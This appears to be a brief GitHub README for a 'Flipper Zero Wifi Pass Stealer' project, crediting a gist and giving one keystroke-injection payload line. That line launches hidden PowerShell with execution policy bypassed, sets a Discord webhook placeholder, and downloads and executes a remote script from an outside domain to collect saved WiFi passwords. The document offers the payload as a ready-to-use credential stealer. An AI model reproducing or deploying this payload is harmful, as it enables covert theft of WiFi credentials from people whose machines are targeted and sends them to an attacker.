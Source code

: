 # FlipperZeroWifiPassStealer
Flipper Zero Wifi Pass Stealer

## Credits

This project was inspired by and based on [AlexZeGamer's Gist](https://gist.github.com/AlexZeGamer/c7269927335d152cc28d31022c00882e). Many thanks to the original author for their work!

## Code

STRINGLN powershell -w h -ep bypass $discord='<your_webhook_here>';irm link.wmlsandaruwan.online/AllWiFiPassInOne | iex
